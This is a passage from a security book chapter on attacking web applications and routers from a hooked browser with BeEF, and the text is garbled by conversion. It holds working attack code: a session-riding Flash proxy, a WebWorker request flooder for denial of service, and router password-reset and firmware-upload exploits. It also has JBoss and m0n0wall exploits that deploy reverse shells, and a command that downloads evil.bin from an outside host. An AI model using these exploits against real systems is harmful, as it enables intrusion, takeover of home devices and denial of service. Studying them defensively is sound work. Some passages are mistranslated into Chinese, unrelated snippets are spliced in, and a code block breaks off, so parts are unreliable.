To generate the Flash SWF file from the Flex source, you need to use Adobe’s Flex SDK. You can compile the source code with the following command:

<x0.2367><y0.2469>```java
mxmlc --strict=true --file-specs malariaproxy.mxml
```

The next step is to embed the SWF file previously generated in an HTML file like the following:

<x0.2367><y0.2469>```java
<head>
<script>
function log(msg) {
 var elm = document.getElementById("log");
 elm.innerHTML += msg + "<br />";
}
</script>
</head>
<body>
<div id="log">
</div>
<object width="0" height="0">
<param name="movie" value="malariaproxy.swf">
<embed src="malariaproxy.swf" width="0" height="0"></embed>
</object>
```

To better understand what’s happening under the hood, the code contains an additional logging facility, the log() function. Integrating this with BeEF, you may want to inject the SWF in an already hooked page, removing the logging facility that uses ExternalInterface.call to send messages from the SWF to the DOM.

In the following example, the target is logged in to browservictim.com/dvwa/instructions.php. The domain exposes the /crossdomain.xml resource, which is an open cross-origin policy that allows connections from any domain.

You trick the target into opening http://browserhacker.com/malariaproxy.html, which embeds the malicious malaRIA SWF file. At the same time, you open another browser (Opera) that is configured to use the malaRIA HTTP proxy back end. Now you can simply request an authenticated page such as http://browservictim.com/dvwa/vulnerabilities/upload.

As a result, the proxy back end sends the request details to the SWF, as shown in Figure 9-32. The SWF returns the related response to the proxy back end, which then returns the response to your browser. This behavior is similar to BeEF’s Tunneling Proxy. The main difference is that instead of using JavaScript to send the requests, an SWF file is used.

 start figure 

**Figure 9-32:** malaRIA logs from both the proxy back end and the SWF file.


 end figure 

Because the target is authenticated to [browservictim.com](http://browservictim.com), the SWF can issue authenticated requests to that same domain. As demonstrated in Figure 9-33, the requested authenticated resource is correctly retrieved, without any knowledge about cookies or credentials.

 start figure 

**Figure 9-33:** Attacker’s browser configured to use malaRIA proxy


 end figure 

At this stage, you are effectively riding the target’s session. This example is using Flash, but you can obtain the same results with a malicious Silverlight widget.

The powerful thing about exploiting a liberal cross-origin policy is that after you inject your widget into the target’s browser, you can use it to connect to every origin on the Internet with this misconfiguration. If the target happens to be authenticated to multiple different origins, and all of them expose a liberal cross-origin policy, the impact of the attack will be much greater. Your malicious widget can now issue requests to all these origins and proxy the responses.

# Launching Denial-of-Service Attacks

When considering Denial-of-Service (DoS) attacks, most people think of a computer botnet issuing stupendous amounts of requests. As you know, the browser issues requests too and they can be sent cross-origin with minimal instruction. In this section, you’ll explore the consequences of employing this functionality in DoS attacks.

## Web Application Pinch Points


-   [使用费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**理查德·费曼**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


var url = "";
var delay = 0;
var method = "";
var post_data = "";
var counter = 0;

/* gets the data via postMessage */
onmessage = function (oEvent) {
 url = oEvent.data['url'];
 delay = oEvent.data['delay'];
 method = oEvent.data['method'];
 post_data = oEvent.data['post_data'];
 doRequest();
};

/*prevents caching adding a random paramater to the URL*/
function noCache(u){
 var result = "";
 if(u.indexOf("?") > 0){
  result = "&" + Date.now() + Math.random();
 }else{
  result = "?" + Date.now() + Math.random();
 }
 return result;
}
/* every <delay> milliseconds issue a
 * POST or GET request */
function doRequest(){
 setInterval(function(){

  var xhr = new XMLHttpRequest();
  xhr.open(method, url + noCache(url));
  xhr.setRequestHeader('Accept','*/*');
  xhr.setRequestHeader("Accept-Language", "en");
  if(method == "POST"){
    xhr.setRequestHeader("Content-Type", 
    "application/x-www-form-urlencoded");
    xhr.send(post_data);
  }else{
    xhr.send(null);
  }
  counter++;

 },delay);

/* every 10 seconds let the invoker know how
 * many requests have been sent */
 setInterval(function(){
 postMessage("Requests sent: " + counter);
 },10000);
}
```

If you inject this code into two different hooked browsers targeting the same Ruby web application from earlier in this section, you will see an increase in resource utilization. Figure 9-34 shows the system load during normal application usage.

 start figure 

**Figure 9-34:** Normal system load


 end figure 

After starting a WebWorker using the previous JavaScript code, you will see a slight increase in the load, as shown in Figure 9-35.

 start figure 

**Figure 9-35:** System load with one hooked browser


 end figure 

You can see the difference in terms of system load in Figure 9-36, where another WebWorker has been started on a different hooked browser, sending POST requests every 10 milliseconds. The load changes so dramatically compared to Figure 9-35. This is because one browser is issuing POST requests, which results in a database insert statement. This happens at the same time as another hooked browser is issuing GET requests that result in a join operation across a data set that becomes bigger after each request. All this activity causes the load increase.

 start figure 

**Figure 9-36:** System load with two hooked browsers


 end figure 

After identifying similar web application pinch points, which may not be limited to database operations but also file uploads, you can easily DoS any web application. These DoS attacks may be more effective if you have multiple hooked browsers you can control, and you can instruct all of them to point to the same target, increasing the volume of concurrent requests per second.

# Launching Web Application Exploits

Remote Command Execution (RCE) vulnerabilities are another class of vulnerability that may not require access to the HTTP response, and therefore can be performed blindly. This is an important attribute of a potential attack when you’re constrained by the SOP without a bypass, and you can’t read HTTP responses. If you know that a web application is vulnerable to RCE, you may just need to send the malicious request without worrying about the response.

There are two main advantages of launching such exploits from the hooked browser, and not directly from your machine. The first one is the increased anonymity, because the source IP of the attack will be the target’s. Secondly, targets on the intranet might also be in range of the hooked browser and their security is likely to be less mature than devices directly accessible from the Internet. This brings a whole new set of targets into reach.

In the following sections, various real-world web application vulnerabilities are presented. Even if you previously knew of these, you will see how to reliably launch exploits against these vulnerabilities through a hooked browser.

## Cross-origin DNS Hijack

One of the more nefarious things you can do when targeting home routers is to change the DNS server details. Most home routers are both a DHCP and DNS service for all the devices connected to them. Usually the default DNS address points to the DNS servers of the ISP of the user.

If you are able to change the DNS address configured in the router with one that you control, you can quite easily perform DNS Spoofing attacks, like those discussed in the Man-in-the-Middle scenarios from Chapter 2.

There have been multiple examples of such attacks in the wild. One of the most significant examples happened between 2011 and 2012 in Brazil.33 According to Brazilian CERT,34 more than 4.5 million routers were compromised. The vulnerable router in question was a Comtrend CT-5367 device, which had remote administration functionality enabled. Furthermore, the router was also vulnerable to password-reset vulnerabilities.35 The wide-scale attack was broken down into the following phases:

Level1 **1.** The attackers port scanned millions of hosts inside Brazilian ISP network ranges, verifying which discovered hosts were the vulnerable Comtrend routers. **2.** Next, the attackers changed the DNS settings in the vulnerable routers to use one of almost 40 different rogue DNS servers under their control. **3.** Finally, they spoofed the DNS responses for Google, Facebook and other popular websites, redirecting them to phishing sites that were delivering Java exploits such as CVE-2012-1723 and CVE-2012-4681. 

/Level1

An attack exploiting the Comtrend router is shown in the following code. When executed on the hooked browser, it will change the default passwords and enable remote administration:

```
var gateway = 'http://192.168.1.1/'; 
var passwd  = 'BeEF12345';

// enable remote administration (if disabled)
var iframe_1 = beef.dom.createInvisibleIframe();
iframe_1.setAttribute("src", 
 gateway + "scsrvcntr.cmd?action=save&ftp=1&ftp=3" + 
 "&http=1&http=3&icmp=1&snmp=1&snmp=3&ssh=1&ssh=3" + 
 "&telnet=1&telnet=3&tftp=1&tftp=3");

// change passwords for the 3 default user roles
var iframe_2 = beef.dom.createIframeXsrfForm(
gateway + "password.cgi", "POST", [
 {'type':'hidden', 'name':'sptPassword', 'value':passwd},
 {'type':'hidden', 'name':'usrPassword', 'value':passwd},
 {'type':'hidden', 'name':'sysPassword', 'value':passwd}
]);
```

If this code executes successfully, you can connect to the target’s IP and log into the remote administrative interface with the new password. From there, you can then change the DNS server settings to anything you like.


在 JBoss 中，JMX 通过一个易于使用的 Web 应用程序公开，通常位于 `/jmx-console` URI 处，默认情况下不需要身份验证。如果启用了身份验证，则只有 GET 或 POST 请求会被检查以确认是否可以访问 `/jmx-console` 资源。作为全面的渗透测试人员，我们知道除了 GET 或 POST 之外还有更多 HTTP 方法。例如，HEAD 请求在实践中具有与 GET 非常相似的功能。这意味着攻击者可以通过发送 HEAD 请求而不是 GET 或 POST 请求来绕过启用的 JMX 身份验证。

在这些情况下，如果你有访问 JBoss JMX 控制台的权限，世界就在你掌握之中，36 也就是说。通过这种权限，你可以部署新的 Web 应用程序，形式为 WAR（Web Application Archive）文件或简单的 JSP（Java Server Pages）文件。例如，你可以部署一个 JSP 页面，它会 spawn 一个 bind 或反向 shell，该进程以 JBoss 用户的相同权限运行。

下面的代码片段是 BeEF 模块的示例，用于绕过 JMX 身份验证并部署反向 JSP 壳：

```beef.execute(function() {

   rhost = "<%= @rhost %>";
   rport = "<%= @rport %>";
   lhost = "<%= @lhost %>";
   lport = "<%= @lport %>";
   injectedCommand = "<%= @injectedCommand %>";
   jspName = "<%= @jspName %>";

   payload = "[…]";

    uri = "/jmx-console/HtmlAdaptor;index.jsp?action=invokeOp&name=\
jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=5&arg0=\
%2Fconsole-mgr.sar/web-console.war%2F&arg1=" + jspName + "&arg2=.jsp\
&arg3=" + payload + "&arg4=True";

/* always use dataType: script when doing cross-origin XHR, 
* otherwise even if the HTTP resp is 200, jQuery.ajax will always
* launch the error() event*/

beef.net.forge_request("http", "HEAD", rhost, rport, uri, null, null,
 null, 10, 'script', true, null,function(response){
if(response.status_code == 200){
   function triggerReverseConn(){
   beef.net.forge_request("http", "GET", rhost, rport,"/web-console/" +
 jspName + ".jsp", null, null, null, 10, 'script', true, null,\
function(response){
     if(response.status_code == 200){
        beef.net.send("<%= @command_url %>", <%= @command_id %>,
“Reverse JSP shell triggered. Check your MSF handler listener."); 
     }else{
        beef.net.send("<%= @command_url %>", <%= @command_id %>,
“ERROR: second GET request failed.”);
  }
  });
}

// give the time to JBoss to deploy the JSP reverse shell
setTimeout(triggerReverseConn,10000);

}else{
   beef.net.send("<%= @command_url %>", <%= @command_id %>,
“ERROR: first HEAD request failed.”);
         }
    });
});
```

用于 JSP 反向 shell 的代码是 Metasploit 反向 JSP 壳的修改版本。payload 变量包含已 URL 编码的 JSP 源代码，解码后如下：

```
<%@page import="java.lang.*"%> 
<%@page import="java.util.*"%> 
<%@page import="java.io.*"%> 
<%@page import="java.net.*"%> 
<% class StreamConnector extends Thread { 
 InputStream is; OutputStream os; 
 StreamConnector( InputStream is, OutputStream os ) { 
  this.is = is; this.os = os; 
 } 
 
 public void run() { 
  BufferedReader in  = null; 
  BufferedWriter out = null; 
  try { 
   in  = new BufferedReader(new InputStreamReader(this.is)); 
   out = new OutputStreamWriter(this.os)); 
   char buffer[] = new char[8192]; 
   int length; 
   while((length = in.read(buffer, 0, buffer.length)) > 0 ){
    out.write(buffer, 0, length); out.flush(); 
   } 
  }catch( Exception e ){} 
  try { 
   if( in != null ) 
    in.close(); 
   if( out != null ) 
    out.close(); 
   }catch( Exception e ){} 
 }   

try { 
 Socket socket = new Socket(lhost,lport); 
 Process process = Runtime.getRuntime().exec(injectedCommand); 
 (new StreamConnector(process.getInputStream(),
  socket.getOutputStream())).start(); 
 (new StreamConnector(socket.getInputStream(),
  process.getOutputStream())).start(); 
} catch(Exception e){} 
```

该 exploit 包含两个阶段：

*   第一阶段是发送 HEAD 请求，并将编码的 JSP payload 与 `/jmx-console/HtmlAdaptor;index.jsp` URI 一起发送。使用 DeploymentFileRepository MBean（管理 Bean）来部署 JSP 到 JBoss。

*   如果 HEAD 请求成功，则会调用 triggerReverseConn()，延迟 10 秒。这个延迟是为了给 JBoss 足够的时间部署 JSP。调用此函数会发出一个 GET 请求到先前部署的 JSP 页面。这一步是触发反向连接的关键，该连接指向 Metasploit 监听器中指定的 lhost 和 lport 变量。

如果 exploit 执行成功，你现在应该拥有一个以 JBoss 用户身份运行的反向 shell。要观看此 exploit 的演示，请访问 [`browserhacker.com`](https://browserhacker.com) 并观看视频。

**Cross-origin GlassFish Remote Command Execution**

类似于 JBoss，Glassfish 也是另一个 Java 应用服务器。Roberto Suggi Liverani 发现（CVE-2012-0550）37 Glassfish 3.1.1 的 RESTful API 未受任何 anti-XSRF 令牌保护。这个问题可以通过 Glassfish 已经认证的管理员被诱导静默部署 WAR 到 GlassFish 服务器来利用，从而在前面的 JBoss 利用场景中实现相同的结果。

下面的代码片段是 Bart Leppens 编写的 BeEF 模块的一部分，可用于将任意 WAR 部署到 Glassfish 并实现以 Glassfish 用户身份执行命令。该 exploit 的最有趣之处是使用 XMLHttpRequest 对象进行跨源 multipart POST 请求，这是 Krzysztof Kotowicz 研究的技术：38


-   [Cross-origin m0n0wall 远程命令执行]

The embedded firewall solution m0n0wall is based on FreeBSD. It can be used in either embedded devices like Soekris mainboards or old unused PCs. The m0n0wall web administration interface was susceptible to a post-authentication exploit, similar to the Glassfish example. Yann Cam discovered that the web administrative interface of m0n0wall 1.33 and prior versions lacked XSRF protection mechanisms.

The web administration interface has many features, including the ability to execute raw commands as root. For exploitation, you’ll use a slightly different m0n0wall resource, exec_raw.php, which gives you more flexibility because it expects raw PHP code. The BeEF module that exploits this vulnerability uses Mark Lowe’s PHP shell for its reliability. The connection established between the webshell and a Netcat listener is quite stable. The shell is interactive, allowing you to carry on your penetration testing activities.

The following code snippet shows the instructions used to exploit an authenticated m0n0wall web administration interface from a hooked browser:

```
beef.execute(function() {
  var rhost = '<%= @rhost %>'; 
  var rport = '<%= @rport %>';
  var lhost = '<%= @lhost %>';
  var lport = '<%= @lport %>';

  var uri = "http://" + rhost + ":" + rport + "/exec_raw.php? \
cmd=echo%20-e%20%22%23%21%2Fusr%2Flocal%2Fbin%2Fphp%5Cn%3C%3Fphp%20 \
eval%28%27%3F%3E%20%27.file_get_contents%28%27http%3A%2F%2F" + \
beef.net.host + ":" + beef.net.port + "%2Fphp-reverse-\
shell.php%27%29.%27%3C%3Fphp%20%27%29%3B%20%3F%3E%20%3E%20 \
x.php%3Bcat%20x.php%3Bchmod%20755%20x.php%3B";

  beef.net.forge_request("http", "GET", rhost, rport, uri, null, 
  null, null, 10, 'script', true, null, function(response){
    if(response.status_code == 200){
      function triggerReverseConn(){
        beef.net.forge_request("http", "GET", rhost, rport,  
"/x.php?ip=" + lhost + "&port=" + lport, null, null, null, 10, 
 'script', true, null, function(response){
          if(response.status_code == 200){
            beef.net.send("<%= @command_url %>", <%=  
@command_id %>,"result=OK: Reverse shell should have been triggered.");
          }else{
            beef.net.send("<%= @command_url %>", <%=  
@command_id %>,"result=ERROR: second GET request failed.");
          }
        });
      }
      setTimeout(triggerReverseConn,5000);
    }else{
      beef.net.send("<%= @command_url %>", <%= @command_id  
%>,"result=ERROR: first GET request failed.");
    }
  });
    

});
```

The code is URL decoding the content of the `uri` variable by using the `exec_raw.php` resource, which is available by default in every m0n0wall installation:


/exec_raw.php?cmd=echo -e "#!/usr/local/bin/php\n \n <?php eval('?> '.file_get_contents('http://\" +  \n beef.net.host + ":" + beef.net.port + \n\"/php-reverse-shell.php\').'<?php '); ?> > \n        x.php;cat x.php;chmod 755 x.php;"```

The reverse shell content hosted on the BeEF server is retrieved using PHP’s file_get_contents. Its content is then added to the x.php file on the target and the file permissions are then adjusted. This stage occurs with the first GET request.

In the meantime, a simple Netcat socket is listening on lhost and lport on your machine. To trigger the reverse shell connection, a second GET request is then issued, requesting the x.php file created previously. If the exploit was successful, you should now have remote root access on the vulnerable m0n0wall device.

The m0n0wall web administration interface vulnerability is due to the lack of XSRF protective mechanisms, which results in the web application trusting cross-origin requests. Also, exploitation relies on the target being logged in to the application, and this can be determined using the techniques discussed earlier in this chapter. To see a demonstration of this exploit, visit [`browserhacker.com`](https://browserhacker.com) and watch the video.

## Cross-origin Embedded Device Command Execution

Home routers usually run embedded versions of Linux, frequently on MIPS architectures. BusyBox, a compilation of common UNIX utilities wrapped up into a small executable, is quite commonly found on these embedded devices. If you’re able to exploit Remote Command Execution vulnerabilities, you can employ BusyBox to subvert the router internals in a more direct way.

### Pre-authentication Remote Command Execution

Michal Sajdak discovered42 that a popular router in Poland, the Asmax AR 804, was vulnerable to RCE pre-authentication. The following JavaScript demonstrates exploitation of the flaw:

```
var gateway = '192.168.0.1'; 
var path    = 'cgi-bin/script?system%20';
var cmd     = 'wget%20http%3A%2F%2Fbrowserhacker.com
%2Fevil.bin%20-P%20%2Fvar%2Ftmp';

var img = new Image();
img.setAttribute("style","visibility:hidden");
img.setAttribute("width","0");
img.setAttribute("height","0");
img.id = 'asmax_ar804gu';
img.src = gateway+path+cmd;
document.body.appendChild(img);
```

The commands available in the router included wget; this is exploited in the code snippet to download evil.bin from browserhacker.com into the /var/tmp folder. To exacerbate the vulnerability, every process on the router, including the web server, was running as root as you can see from Figure 9-37.

 start figure 

**Figure 9-37:** Every process on the Asmax router runs as root.


 end figure 

RCE vulnerabilities including direct access to a router’s BusyBox interface have been used maliciously in the wild. One of the first appearances of a botnet made with SOHO routers dates back to 2008, and was known as PsyBot. According to Terry Baume43, the botnet was mainly composed of Netcom NB5 routers.

A popular version of the firmware in those devices did not enforce any authentication on the web user interface, allowing the attackers to enable Telnet administration on the router. Once Telnet was accessible, the attacks then executed the comment in Figure 9-38.

 start figure 

**Figure 9-38:** PsyBot infection first command


 end figure 

As you can see in Figure 9-38, the following is occurring:

*   The udhcpc.env file is downloaded into /var/tmp with wget

*   The file is then set to be executable by the chmod command

*   The file is then executed in the background

The executable is compiled for MIPS and, once executed, connects to one of the IRC command and control botnet servers run by the attackers. The same attack vector could be used against the RCE vulnerability described earlier for the Asmax routers, as it was pre-authentication and every command would run with root privileges.

Other more recent appearances of botnets targeting SOHO routers include the Chuck Norris variants that affected multiple Linux MIPS–embedded devices during 2009/2010. The hilarious name was not due to the routers being hacked by Chuck Norris himself, unfortunately. The researchers at Masaryk University discovered an Italian comment in the source code: “[R]anger killato: in nome di Chuck Norris” (which, when translated, means: “Ranger killed: in the name of Chuck Norris”).44

### Firmware Replacement Remote Command Execution

Another way to achieve full control over the router is by replacing the firmware with your own. This is the ultimate method in which to subvert the router internals. If you manage to get your own firmware running on the device, you can also prevent further firmware updates from occurring.

Phil Purviance presented a technique at BlackHat 2012 to replace the firmware on various Linksys devices that were vulnerable to XSRF. The exploit worked cross-origin and used the same technique pioneered by Krzysztof Kotowicz and discussed in the GlassFish exploit. The following example demonstrates this technique:

```
function fileUpload(url, fileData, fileName) {
var fileSize = fileData.length, 
 boundary = "---------------------------" +
 "168072824752491622650073", xhr = new XMLHttpRequest;
xhr.open("POST", url, true);
xhr.withCredentials = "true";
xhr.setRequestHeader("Content-Type", 
 "multipart/form-data, boundary=" + boundary);

// format properly the multipart POST body
var body = boundary + "\r\n";
body += "Content-Disposition: form-data; " +
 "name=\"submit_button\"; name=\"submit_button\" \r\n\r\nUpgrade\r\n";
body += boundary + "\r\nContent-Disposition: " + 
 "form-data; name=\"change_action\"\r\n\r\n\r\n";
body += boundary + "\r\nContent-Disposition: " + 
 "form-data; name=\"action\"\r\n\r\n\r\n";
body += boundary + "\r\nContent-Disposition: " + 
 "form-data; name=\"file\"; " + 
 "filename=\"FW_WRT54GL_4.30.15.002_US_20101208_code.bin\"\r\n";
body += "Content-Type: application/macbinary\r\n";
body += "\r\n" + fileData + "\r\n\r\n";
body += boundary + "\r\nConntent-Disposition: " +
 "form-data; name=\"process\"\r\n\r\n\r\n";
body += boundary + "--";

// for non-Gecko Browsers like Chrome that don't have sendAsBinary
if(navigator.userAgent.toLowerCase().indexOf("chrome") > -1) {
 XMLHttpRequest.prototype.sendAsBinary = function(datastr) {
  function byteValue(x) {
    return x.charCodeAt(0) & 255
  }
  var ords = Array.prototype.map.call(datastr, byteValue);
  var ui8a = new Uint8Array(ords);
  this.send(ui8a.buffer)
 }
xhr.sendAsBinary(body);
return true
}

// call fileUpload() passing the firmware contents
fileUpload("http://192.168.0.1/upgrade.cgi", 
"[..firmware binary..]", "myFile.gif");
```

Executing this code, you are able to update the firmware of a Linksys WRT54GL with the raw data passed as the second argument to the fileUpload() function.

Modifying the existing router firmware and back-dooring it with your own code isn’t as difficult as you might think! You just need the right tools.

Craig Heffner, creator of binwalk45, together with Jeremy Collake, created the Firmware Modification Kit.46 This collection of Bash scripts can be used to unpack the router firmware in order to obtain the file system files tree. Then you can read every file, modify them by inserting your backdoor code, and then repack everything as a single file ready to be used with the attacks described earlier.

Robert Kornmeyer, in mid-2013, published an article on PaulDotCom47 showing how you could backdoor a DD-WRT firmware for Linksys routers using the Firmware Modification Kit. He was able to modify the Info.htm page source to include the BeEF hook, as you can see in Figure 9-39.

 start figure 


# 图 9-39: 使用 BeEF 钩子后门的 DD-WRT

<x0.2965><y0.4305><x0.7035><y0.4418>

<x0.2965><y0.4539>这些相同的攻击向量同样适用于任何公开 Web 界面的网络设备，而不仅仅是路由器。利用 XSS、基本身份验证和 CSRF 漏洞是一种很好的方法，用于对 NAS 设备、交换机、监控摄像头、媒体播放器等设备进行未经授权的更改。正如你可能预期的那样，BeEF 包含了针对这些特定问题的众多命令模块。在高层面上，这些模块分为针对摄像头、NAS 设备和路由器的利用攻击。

<x0.2965><y0.5305>摄像头模块尝试利用漏洞更新 DLink 和 Linksys 型号的管理员凭据。例如，在针对 AirLive 摄像头的一次实例中，模块会添加一个新的管理员用户。

<x0.2965><y0.555>The NAS exploit modules target both DLink and FreeNAS devices. The DLink CSRF flaw permits remote code execution, while the CSRF flaw in the FreeNAS device is used to create a reverse shell back out to your computer.

<x0.2965><y0.5797>The router exploit modules include attacks against 3COM, Belkin, CISCO, DLink, Linksys and Comtrend devices. Most of these will attempt to exploit CSRF flaws to change admin passwords, or enable remote access, as has been discussed earlier.

<x0.2965><y0.6043>Figure 9-40 presents another useful resource for attacking network gateway devices: [`www.routerpwn.com`](http://www.routerpwn.com). Routerpwn, a project created by Roberto Salgado, is a collection of HTML and JavaScript payloads targeting residential routers. This allows almost anyone, anywhere, to attack his or her local router. The attacks are broken down against router manufacturers, such as Belkin, Cisco, Huawei, Netgear and so on. The webpage itself is actually just a single HTML file, and so can be downloaded and run offline in instances where perhaps Internet connectivity is not available.

<x0.2965><y0.6836>start figure<x0.3352><y0.6852><class_Picture>

<x0.2965><y0.6969>**Figure 9-40:** Routerpwn - www.routerpwn.com<x0.7035><y0.7078>

<x0.2965><y0.7195><x0.7035><y0.7305>

<x0.2965><y0.7434>end figure<x0.3352><y0.7453>

<x0.2965><y0.7566>The attacks covered in this section provide a demonstration of the fragility of network routers, particularly SOHO devices often found in people’s homes. One of the primary causes of these issues is the assumption that vendors make around the security of web user interfaces. That is, web interfaces published on internal networks are safe from attackers on the Internet.

<x0.2965><y0.8359>This assumption comes tumbling down like a house of cards if a browser within the network is executing JavaScript under an attacker’s control. From this vantage point, the router can be reconfigured, bypassed entirely, or become part of a botnet.

# Summary

<x0.2965><y0.875>This chapter has detailed a range of web application attack scenarios that can be launched from the hooked browser, many of which can be performed across origins without violating the SOP. The methods covered afford you as the attacker an increased level of anonymity and provide access to non-routable web applications residing on intranets.

<x0.2965><y0.8992>Approaches to identify and exploit vulnerabilities cross-origin have also been discussed. These included Remote Command Execution (RCE), SQL injection, and Cross-site Scripting attacks (XSS).

<x0.2965><y0.9242>You now know how hooking origins employing XSS vulnerabilities (discovered cross-origin) could expand the number of origins under your control and increase the attack surface. Once hooked, the newly controlled origin could be accessed via a Tunneling Proxy. This allows you to potentially ride an authenticated session and bypass some mitigations using HttpOnly. Standard security tools, like Burp and Sqlmap, could also use the Tunneling Proxy to relay their request via the hooked browser.

<x0.2965><y0.9492>This chapter also showed that standard web application exploits could be launched cross-origin. These attacks can exploit RCE vulnerabilities on devices located on the intranet.

<x0.2965><y0.9742>In the next chapter, you further explore taking advantage of hooked browsers positioned within internal networks. The attacks covered demonstrate how to compromise non-web services using Inter-protocol Communication and Exploitation, along with other methods.

# Questions

<x0.2965><y1.0094>Level1 **1.** What are preflight requests? **2.** How does cross-origin web application fingerprinting work? Is it respecting or violating the Same Origin Policy? **3.** How do you blindly hook a new domain? Describe an example. **4.** Is there a way to detect if the user is logged in to a web application, respecting the Same Origin Policy? **5.** Why can combining an XSRF vulnerability with a Cross-domain request potentially have devastating effects? How would a pseudo-random anti-XSRF token mitigate that? **6.** Which type of SQL injection is possible to detect cross-origin, respecting the Same Origin Policy? Is it blind or not? **7.** How is it possible to proxy HTTP requests through the hooked browser? **8.** Describe how the GlassFish exploit (CVE-2012-0550) explained in the last section of the chapter works. Are there any caveats? **9.** How can you exploit a liberal cross-origin policy, which allows access from all domains? Describe a practical example. **10.** Provide an example of a web application pinch point.

<x0.2965><y1.0977>For answers to the questions please refer to the book’s website at [`browserhacker.com/answers`](https://browserhacker.com/answers) or the Wiley website at: [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook).<x0.7035><y1.1094>

**Notes**

<x0.3352><y1.1219><class_Section-header>

1\. Mozilla Developer Network. (2013). HTTP access control (CORS). Retrieved June 15, 2013 from [`developer.mozilla.org/en-US/docs/HTTP/Access_control_CORS`](https://developer.mozilla.org/en-US/docs/HTTP/Access_control_CORS)<x0.7035><y1.1403>

2\. W3C. (2013). Cross-origin Resource sharing Terminology. Retrieved June 15, 2013 from [`www.w3.org/TR/cors/#simple-method`](http://www.w3.org/TR/cors/#simple-method)<x0.7035><y1.1656>

3\. W3C. (2013). Cross-origin Resource sharing Terminology. Retrieved June 15, 2013 from [`www.w3.org/TR/cors/#simple-header`](http://www.w3.org/TR/cors/#simple-header)<x0.7035><y1.1909>

4\. BeEF Project. (2012). Internal Network Fingerprinter. Retrieved October 8, 2013 from [`github.com/beefproject/beef/tree/master/modules/network/internal_network_fingerprinting`](https://github.com/beefproject/beef/tree/master/modules/network/internal_network_fingerprinting)<x0.7035><y1.2164>

5\. Chris Sullo. (2010). CMS Explorer. Retrieved June 15, 2013 from [`code.google.com/p/cms-explorer/`](http://code.google.com/p/cms-explorer/)<x0.7035><y1.2414>

6\. Sky. (2012). Sagem router firmware. Retrieved October 8, 2013 from [`www.skyuser.co.uk/skyinfo/the_sagem_f_st_2504_router_gets_a_new_fw.html`](http://www.skyuser.co.uk/skyinfo/the_sagem_f_st_2504_router_gets_a_new_fw.html)<x0.7035><y1.2664>

7\. Gareth Heyes. (2007). JS Lan Scanner. Retrieved October 8, 2013 from [`code.google.com/p/jslanscanner/source/browse/trunk/lan_scan/js/lan_scan.js`](http://code.google.com/p/jslanscanner/source/browse/trunk/lan_scan/js/lan_scan.js)<x0.7035><y1.2911>

8\. Mike Cardwell. (2011). Abusing HTTP Status Codes to Expose Private Information. Retrieved June 15, 2013 from [`grepular.com/Abusing_HTTP_Status_Codes_to_Expose_Private_Information`](https://grepular.com/Abusing_HTTP_Status_Codes_to_Expose_Private_Information)<x0.7035><y1.3164>

9\. H. Meer and M. Slaviero. (2007). It’s all about timing. Retrieved June 15, 2013 from [`www.defcon.org/images/defcon-15/dc15-presentations/Meer_and_Slaviero/Whitepaper/dc-15-meer_and_slaviero-WP.pdf`](http://www.defcon.org/images/defcon-15/dc15-presentations/Meer_and_Slaviero/Whitepaper/dc-15-meer_and_slaviero-WP.pdf)<x0.7035><y1.3414>

10\. P. Watkins. (2001). Cross-site Request Forgeries. Retrieved June 15, 2013 from [`www.tux.org/~peterw/csrf.txt`](http://www.tux.org/~peterw/csrf.txt)<x0.7035><y1.3664>


12. `Chris Shiflett`. (2004). `Cross-Site Request Forgeries`. Retrieved `June 15, 2013` from `http://shiflett.org/articles/cross-site-request-forgeries`

13. `James Fisher`. (2013). `DirBuster Project`. Retrieved `June 15, 2013` from `https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project`

14. `Mozilla Developer Network`. (2013). `DOMParser`. Retrieved `June 15, 2013` from `https://developer.mozilla.org/en-US/docs/Web/API/DOMParser`

15. `Eli Gray`. (2012). `DOMParser HTML extension`. Retrieved `June 15, 2013` from `https://gist.github.com/eligrey/1129031`

16. `David Litchfield`, `Chris Anley`, `John Heasman`, and `Bill Grindlay`. (2005). `The Database Hacker’s Handbook`. Retrieved `June 15, 2013` from `http://www.amazon.com/The-Database-Hackers-Handbook-Defending/dp/0764578014`

17. `Justin Clarke`. (2009). `SQL Injection Attacks and Defense`. Retrieved `June 15, 2013` from `http://store.elsevier.com/SQL-Injection-Attacks-and-Defense/Justin-Clarke/isbn-9781597499637/`

18. `Wikipedia`. (2013). `Prepared statement`. Retrieved `June 15, 2013` from `http://en.wikipedia.org/wiki/Prepared_statement`

19. `Chema Alonso`. (2007). `Time-Based Blind SQL Injection with Heavy Queries`. Retrieved `June 15, 2013` from `http://technet.microsoft.com/en-us/library/cc512676.aspx`

20. `Bernardo Damele`. (2009). `Advanced SQL injection to operating system full control`. Retrieved `June 15, 2013` from `http://www.blackhat.com/presentations/bh-europe-09/Guimaraes/Blackhat-europe-09-Damele-SQLInjection-slides.pdf`

21. `Chris Anley`. (2002). `Advanced SQL injection`. Retrieved `June 15, 2013` from `http://www.cgisecurity.com/lib/more_advanced_sql_injection.pdf`

22. `Microsoft Developer Network`. (2013). `WAITFOR (Transact-SQL)`. Retrieved `June 15, 2013` from `http://msdn.microsoft.com/en-us/library/ms187331.aspx`

23. `Gareth Heyes`. (2009). `XSS Rays`. Retrieved `June 15, 2013` from `http://www.thespanner.co.uk/2009/03/25/xss-rays/`

24. `Mario Heiderich`. (2010). `XSSAuditor bypasses from sla.ckers.org`. Retrieved `June 15, 2013` from `https://bugs.webkit.org/show_bug.cgi?id=29278#c6`

25. `D. Kristol` and `L. Montulli`. (2013). `HTTP State Management Mechanism`. Retrieved `June 15, 2013` from `http://www.ietf.org/rfc/rfc2109.txt`

26. `RandomStorm`. (2013). `Damn Vulnerable Web Application`. Retrieved `June 15, 2013` from `http://www.dvwa.co.uk/`

27. `RandomStorm`. (2013). `Burp Suite`. Retrieved `June 15, 2013` from `http://portswigger.net/burp/`

28. `B. Damele` and `M. Stamparm`. (2013). `Sqlmap`. Retrieved `June 15, 2013` from `http://sqlmap.org/`

29. `E. Oftedal`. (2010). `MalaRIA—I’m in your browser, surfin your webs`. Retrieved `June 15, 2013` from `http://erlend.oftedal.no/blog/?blogid=107`

